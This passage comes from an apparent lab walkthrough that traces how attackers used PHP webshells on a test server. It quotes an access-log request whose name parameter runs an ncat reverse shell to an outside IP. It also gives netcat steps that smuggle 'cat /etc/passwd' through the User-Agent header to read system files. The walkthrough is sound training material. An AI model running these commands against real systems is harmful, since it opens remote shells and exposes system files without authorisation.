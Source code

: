 This will cause a bash shell to be made in our terminal! To think, this
was all because one page could download an application, while another
one could run commands, this must be how the attackers were able to make
all of these webshells! They could easily have run the installation
command through on the `name.php` page and did these steps in order to
get a shell! Once done, they made the rest of these webshells and made
the greeting page always download `nmap` in case it ever gets deleted!
Here is the log once more:

```
127.0.0.1 - - [17/Oct/2020:17:02:42 -0400] "GET /name.php?name=ncat%20192.168.235.147%201234%20-e%20/bin/sh HTTP/1.1" 200 379 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:81.0) Gecko/20100101 Firefox/81.0"**
```

### Modifying Headers:

We only have a couple of more php files to look at, let's see what else
there could possibly be. We never took a better look into
`under_construction.php`, how about we take a look into that file?

This one is quite different! Essentially only one line here, but the
difference is important. Unlike the other scripts we have seen thus far,
we are not passing the command through GET or having it run when we load
the page, instead we will have a command be able to run based off what
is in the `HTTP_USER_AGENT`. This is an option when we decide to run
an HTTP Request, which may be unfamiliar to you, but you use it quite
often, most often through the guise of the URL in a web browser.
  
The main parts of an HTTP request is its Method, Path and Version of
Protocol. We have been using GET as our main method already, path
signifies where the Method is going to fetch information from, and then
the version of the protocol is what version of HTTP is currently being
used, most often this is `HTTP/1.1`.There are also optional headers
that convey additional information for the servers, which is what is
being exploited here. The `HTTP_USER_AGENT` is often used to let
peers identify the application requesting the user agent, but with this
php shell we can manipulate it a bit.

We are going to attempt to do this manually, what I am going to do here
is list out the commands you will need to input and then I will ask to
perform them, I am doing it this way as the way the server is
configured, you do not have the most amount of time to send this
request, keep on trying though! Make sure after each line you input, you
press the enter key, and once you put in the last line, the User-Agent,
you press enter twice:

```
nc -C IP_OF_SERVER 80
GET /under_construction.php HTTP/1.1
Host: IP_OF_SERVER
User-Agent: cat /etc/passwd
```

Once accomplished, you should get something that looks like this:
